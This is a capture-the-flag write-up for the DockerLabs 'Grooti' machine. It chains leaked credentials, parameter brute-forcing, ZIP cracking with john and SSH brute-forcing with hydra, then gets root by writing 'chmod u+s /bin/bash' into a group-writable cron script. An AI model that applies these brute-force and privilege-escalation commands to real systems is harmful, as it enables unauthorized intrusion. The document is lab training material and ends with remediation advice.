# Grooti — DockerLabs Writeup

**Platform:** DockerLabs · **Difficulty:** Easy · **Target IP:** 172.17.0.2 · **Attacker IP:** 172.17.0.1

## Machine info


## Summary

Grooti is an easy machine that chains several small disclosures into a full compromise. A hidden HTML comment points to a database, an unlinked `/secret/` directory leaks MySQL credentials, and the database itself reveals a route that isn't reachable from the site's navigation. That route hides a password-protected file behind a numeric parameter, the ZIP is cracked to yield a small custom wordlist, and that wordlist cracks SSH for a low-privileged user. From there, a group-writable script tied to a cron job is hijacked to escalate to root.

**Attack chain:** Recon → Web enumeration finds a hidden HTML comment → `/secret/` leaks MySQL credentials → MySQL reveals a hidden route (`/unprivate/secret`) → brute-forcing the `number` parameter uncovers a password-protected ZIP → ZIP cracked, yielding a custom wordlist → SSH brute-force with leaked usernames → shell as `grooti` → writable cron script → root

## 1. Reconnaissance

Confirmed the host was reachable, then ran a full TCP port scan with service/version detection and default scripts.

```
ping -c 1 172.17.0.2
```



```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2
```

Results:

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | ssh | OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (protocol 2.0) |
| 80/tcp | http | Apache httpd 2.4.58 (Ubuntu), title "Grooti's Web" |
| 3306/tcp | mysql | MySQL 8.0.42-0ubuntu0.24.04.2 |

Three services exposed, giving three separate angles to work from.

## 2. Web Enumeration

Browsed to the site: a themed single page ("I AM GROOTI16") with links to `/imagenes/`, `/documentos/` and `/archives/`.



Viewing the page source revealed a hidden HTML comment left in the markup:

```
I am Grooti...
Creo que Rocket ha entrado a mi base de datos...
```



A direct hint that a user named `rocket` and a database are both relevant. A directory brute-force turned up more than what the page links to:

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,sh
```

```
index.html           (Status: 200)
archives              (Status: 301)
imagenes              (Status: 301)
secret                (Status: 301)
server-status          (Status: 403)
```

`/secret/` isn't linked from the page anywhere — worth checking directly.

## 3. Hidden Directory: /secret/

`/secret/` renders a "Base de Datos de rocket" page with a user table and a button to download an instructions file.



| Usuario | Acceso | Estado |
|---------|--------|--------|
| grooti | Administrador | Activo |
| rocket | Subcordinador | Activo |
| Naia | Total | Activo |

These three usernames turn out to matter later. The downloaded file gives a connection command, deliberately missing the password:

```
cat instrucciones.txt
```

```
look carefully here ;)

mysql -u rocket -p -h 172.17.0.2 --ssl=0
```

## 4. Open Directory Listing: Password in /imagenes/

`/imagenes/` has directory listing enabled:

```
curl http://172.17.0.2/imagenes/
```

```
README.txt   39 bytes
grooti.jpg   103K
```

The tiny README.txt has exactly what "look carefully" was hinting at:

```
curl http://172.17.0.2/imagenes/README.txt
```

```
(password1) Encuentra donde ponerla ;)
```

## 5. MySQL Access & Route Discovery

Connected as `rocket` with the leaked password:

```
mysql -u rocket -p -h 172.17.0.2 --ssl=0
```

```
show databases;
use files_secret;
show tables;
select * from rutas;
```

```
+----+------------+---------------------------------+
| id | nombre     | ruta                             |
+----+------------+---------------------------------+
|  1 | imagenes   | /var/www/html/files/imagenes/    |
|  2 | documentos | /var/www/html/files/documentos/  |
|  3 | facturas   | /var/www/html/files/facturas/    |
|  4 | secret     | /unprivate/secret                |
+----+------------+---------------------------------+
```

Three rows follow the same filesystem-path pattern; the fourth (`secret` → `/unprivate/secret`) doesn't — a different route worth visiting directly.

## 6. The Grooti Terminal (/unprivate/secret/)



A second form: a free-text "access message" and a number between 1 and 100, framed as a ship's log system ("Registro automático de cada entrada. Límites aplicados."). Brute-forcing this directory found two backend endpoints behind it:

```
gobuster dir -u http://172.17.0.2/unprivate/secret/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,sh
```

```
index.html      (Status: 200)
download.php    (Status: 200)
generate.php    (Status: 200)
```

The page source confirms the form posts to `generate.php` with fields `content` and `number`:

```
<form action="generate.php" method="POST">
  <input type="text" name="content" ...>
  <input type="number" name="number" min="1" max="100" ...>
```

A baseline submission just returns a taunt, not a real log confirmation:

```
curl -X POST http://172.17.0.2/unprivate/secret/generate.php -d "content=test&number=1"
```

```
Buen intento!
```

## 7. Brute-Forcing the number Parameter

The `number` field is the only part of this form with a fixed, finite range (1–100) — and the page explicitly calls out "Límites aplicados". That makes it the parameter worth exhausting, not the free-text field. Captured the request in Burp and sent it to Intruder, marking `number` as the payload position and running it through 1–100.



`number=16` stands out immediately — a completely different response length, and a `Content-Disposition: attachment; filename="password16.zip"` header instead of the generic message.

## 8. Cracking the ZIP and Building a Wordlist

Downloaded the file directly with the working value:

```
curl -X POST http://172.17.0.2/unprivate/secret/generate.php -d "content=test&number=16" -o password16.zip
unzip password16.zip
```

```
[password16.zip] password16.txt password:
```

Password-protected. Cracked it:

```
zip2john password16.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```
password1        (password16.zip/password16.txt)
```

Same password as the `/imagenes/` README — reused. Unzipped and read the contents:

```
unzip -P password1 password16.zip
cat password16.txt
```

The file is a small, purpose-built list of 34 candidate passwords (`admin123`, `YoSoYgRoOt`, `grootlove`, etc.) — clearly meant to be used against something specific.

## 9. SSH Access

The obvious pairing: the usernames from the `/secret/` table (`grooti`, `rocket`, `Naia`) against this 34-entry wordlist.

```
hydra -L users.txt -P password16.txt ssh://172.17.0.2
```



Valid credentials: `grooti:YoSoYgRoOt`.

```
ssh grooti@172.17.0.2
```



## 10. Privilege Escalation

`sudo -l` and a SUID search both came up empty — nothing usable there:

```
sudo -l
find / -perm -4000 2>/dev/null
```



Manual enumeration of `/tmp` turned up a script that writes a temporary log, sleeps, then deletes itself — a pattern consistent with a scheduled job:

```
cat malicious.sh
```



```
ls -la /tmp/malicious.sh
```

```
-rwxrw-r-- 1 root grooti 221 Jul 22  2025 malicious.sh
```

Owned by root, but group-writable — and the group is `grooti`. `grooti` can overwrite the script's contents even without execute permission on the file itself, since whatever runs it (root, via cron) executes it under root's own permissions as the file's owner. Overwrote it:

```
echo 'chmod u+s /bin/bash' > /tmp/malicious.sh
```

Waited for the next cron cycle, then:

```
bash -p
whoami
id
cd /root
ls
cat grooti.txt
```



`euid=0(root)` — the cron job ran the script as root, setting the SUID bit on `/bin/bash`.

## Root Cause & Remediation

| Issue | Fix |
|-------|-----|
| Sensitive HTML comment left in production markup | Strip debug/developer comments before deploying |
| Unlinked but unauthenticated `/secret/` directory leaking credentials | Never rely on obscurity for access control; require authentication on any endpoint serving credentials |
| Directory listing enabled on `/imagenes/`, exposing a plaintext password file | Disable directory listing (`Options -Indexes`); never store credentials in a web-accessible file |
| Password reused across multiple secrets (`password1`) | Enforce unique credentials per service/secret |
| Hidden functionality gated only by a guessable numeric parameter (1–100) | Don't gate sensitive functionality behind small, brute-forceable parameter spaces; require proper authentication |
| Cron job executes a script from a group-writable location as root | Never let a privileged scheduled task run a script from a directory or file writable by a lower-privileged user |
